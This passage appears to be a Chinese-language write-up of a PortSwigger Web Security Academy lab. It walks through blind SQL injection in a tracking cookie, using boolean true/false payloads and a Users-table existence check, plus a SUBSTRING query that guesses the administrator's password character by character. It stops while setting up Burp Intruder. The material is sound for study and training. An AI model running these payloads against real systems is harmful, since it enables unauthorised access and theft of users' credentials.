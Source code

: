 这时注入条件是True，将返回正确内容。

语句内容为从Users表中Password字段中选取Username为Administrator对应内容的第一个字符与m的ASCII码做对比。

```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
```

可以使用==SUBSTRING==猜解每一位的密码，如下

| Oracle     | `SUBSTR('foobar', 4, 2)`    |
| :--------- | --------------------------- |
| Microsoft  | `SUBSTRING('foobar', 4, 2)` |
| PostgreSQL | `SUBSTRING('foobar', 4, 2)` |
| MySQL      | `SUBSTRING('foobar', 4, 2)` |

##### 例子1

https://ac8c1f671fff8a06c0f30b8600d50046.web-security-academy.net/filter?category=Gifts开启代理后抓包

![image-20220115113423526](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220115113423526.png)

发送到Repeater利用cookie作为关键字构造

```sql
'and '1'='1
```

![image-20220115113608605](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220115113608605.png)

正常显示Welcome Back

```sql
'and '1'='2
```

![image-20220115113733602](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220115113733602.png)

不能正常回显，判断此处存在注入漏洞。

构造函数确定存在Users表

```sql
'AND (SELECT 'a' FROM Users LIMIT 1)='a
```

![image-20220115114301096](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220115114301096.png)

```sql
'AND (SELECT 'a' FROM Users WHERE Username='administrator')='a
```

![image-20220115114533652](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220115114533652.png)

下一步猜解密码长度,使用Intruder自动化测试

Payload类型设置为Number，从1起始至25猜解
